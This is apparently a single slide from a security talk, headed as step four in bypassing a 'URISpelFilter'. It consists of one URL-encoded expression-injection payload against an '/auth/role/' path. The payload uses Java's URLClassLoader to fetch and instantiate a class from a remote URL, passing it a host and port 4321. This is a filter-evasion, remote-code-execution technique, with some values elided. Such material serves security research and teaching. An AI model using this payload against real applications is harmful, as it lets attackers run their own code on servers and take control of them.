

# Step4 - Bypass URISpelFilter
URLClassLoader is also feasible
/auth/role/__$%7Bnew%20java.net.URLClassLoader(new%20java.net.URL%5B%5D%7Bnew%20java.net.URL(T(String).valueOf(new%20char%5B%5D%20%7B...%7D))%7D).loadClass(T(String).valueOf(new%20char%5B%5D%7B...%7D)).getConstructor(T(String),%20T(Integer)).newInstance(T(String).valueOf(new%20char%5B%5D%20%7B...%7D),%204321).toString()%7D__::.x